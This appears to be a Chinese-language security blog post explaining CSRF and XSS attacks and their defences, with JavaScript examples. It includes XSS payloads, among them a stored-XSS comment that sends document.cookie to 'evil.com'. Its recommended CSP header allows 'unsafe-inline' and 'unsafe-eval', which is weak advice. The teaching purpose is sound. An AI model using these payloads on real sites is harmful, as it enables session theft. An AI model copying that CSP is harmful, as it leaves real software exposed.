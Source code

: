 +++
date = '2025-01-23'
draft = false
title = 'CSRF和XSS網路攻擊'
show_reading_time=true
featured_image = '/images/CSRF和 XSS攻擊 (1).png'
categories = ["資安"]
tags = ["資安","前端","後端"]
toc=true
+++

### CSRF(Cross-Site Request Forgery)，跨站請求偽造
CSRF是一種網路安全攻擊，攻擊者利用<b>網站和使用者之間的信任</b>，
網站會信任自己登入用戶的請求，但攻擊者卻可以偽造請求，在使用者不知情的情況下，對網站發送未經授權的請求。
<!--more-->

如果覺得有點模糊......
### 舉個例子來說明攻擊流程：

#### 1.使用者登入網站
🕸️ 使用者登入了某個網站(銀行、電子郵件服務等)，並在瀏覽器中保留登入的驗證身分資料(如cookie)

#### 2.攻擊者誘導使用者訪問惡意網站
🕸️攻擊者透過電子郵件、社交媒體等，誘使使用者點擊連結，而該連結包含了<b>惡意請求</b>

#### 3.使用者的瀏覽器發送請求
🕸️ 由於使用者的瀏覽器，已經存有網站的登入狀態(通常是cookie)，當瀏覽器發送這個惡意請求時，<b>它會自動附帶使用者的身分驗證訊息</b>
讓網站認為這是一個合法請求。

#### 4.網站執行未經授權的操作
🕸️ 網站依據收到的請求，執行不應該由攻擊者操作的敏感操作，如修改密碼、轉帳、刪除資料......。

### 如何預防CSRF攻擊
💉1.CSRF Token(防範CSRF的令牌)，網站可以為每個表單生成一個唯一的CSRF Token，當用戶提交表單時，該token必須和伺服器端的token匹配，若不匹配，請求會被拒絕。

💉2.檢查HTTP Referer標頭，伺服器可以檢查HTTP請求的Referer標頭，確保請求來自受信任的網站或是來源，這樣可以防止從惡意網站發出的請求。

💉3.設定SameSite Cookie屬性，設定cookies的 `SameSite`屬性，如此一來只能在相同網站的上下文中發送，也能防止第三方網站偽造跨站請求。

💉4.確保用戶的會話在一段時間後過期，並要求用戶重新登入，減少被利用的風險。

### XSS (Cross-Site Scripting)攻擊
XSS是一種網頁安全漏洞，攻擊者可以把惡意腳本注入在網頁中，當其他用戶瀏覽該頁面時，腳本就會在用戶的瀏覽器中執行。

### XSS類型
⌨️ 反射型XSS(Reflected XSS)
- 惡意代碼包含在URL中
- 當服務器把未經處理的參數反射回頁面時觸發

```js
// 假設網址為：
https://example.com/search?q=<script>alert('hacked')</script>

// 後端直接將參數插入 HTML：
app.get('/search', (req, res) => {
    res.send(`搜索結果：${req.query.q}`);  // 危險！
});
```

⌨️ 儲存型XSS(Stroed XSS)
- 惡意代碼被儲存在伺服器中
- 當其他用戶訪問頁面時觸發

```js
// 論壇留言功能
let comment = '<script>document.location="http://evil.com/?cookie="+document.cookie</script>';
// 直接存入資料庫，顯示時未經處理
```

⌨️ DOM Based XSS
- 透過修改頁面的Dom環境來攻擊
- 不需要與伺服器交互

```js
// 危險的代碼：
document.getElementById('user').innerHTML = location.hash.substring(1);

// 攻擊 URL：
https://example.com#<img src=x onerror="alert('hacked')">
```
### 常見的攻擊目標

1.竊取用戶信息(cookiew、session tokens)  
2.竊取用戶憑證  
3.重定向到釣魚網站  
4.修改網頁內容  
5.執行惡意操作  

### 防範XSS攻擊措施

💉輸入驗證和過濾
```js
// 不好的做法
app.get('/search', (req, res) => {
    res.send(`搜索結果：${req.query.q}`);
});

// 好的做法
const sanitizeHtml = require('sanitize-html');
app.get('/search', (req, res) => {
    const cleanQuery = sanitizeHtml(req.query.q);
    res.send(`搜索結果：${cleanQuery}`);
});
```

💉輸出編碼
```js
// 手動轉義
function escapeHtml(unsafe) {
    return unsafe
        .replace(/&/g, "&amp;")
        .replace(/</g, "&lt;")
        .replace(/>/g, "&gt;")
        .replace(/"/g, "&quot;")
        .replace(/'/g, "&#039;");
}
```
💉使用適當的HTTP Headers

```js
// 設置 Content Security Policy (CSP)
app.use((req, res, next) => {
    res.setHeader(
        'Content-Security-Policy',
        "default-src 'self'; script-src 'self' 'unsafe-inline' 'unsafe-eval'; style-src 'self' 'unsafe-inline';"
    );
    next();
});
```
💉HttpOnly Cookie
```js
// 設置 HttpOnly cookie
res.cookie('sessionId', 'abc123', {
    httpOnly: true,
    secure: true
});
```

💉避免直接操作DOM

```js
// 不安全的做法
element.innerHTML = userInput;

// 安全的做法
element.textContent = userInput;
```
💉React、Vue、Angular框架都內建XSS防護
- 但需注意使用 dangerouslySetInnerHTML 等特殊 API

💉正則驗證
```js
// 驗證輸入是否符合預期格式
const isValidInput = (input) => {
    return /^[a-zA-Z0-9]+$/.test(input);
};
```
### 結論
![table](csrf_xss_table.png)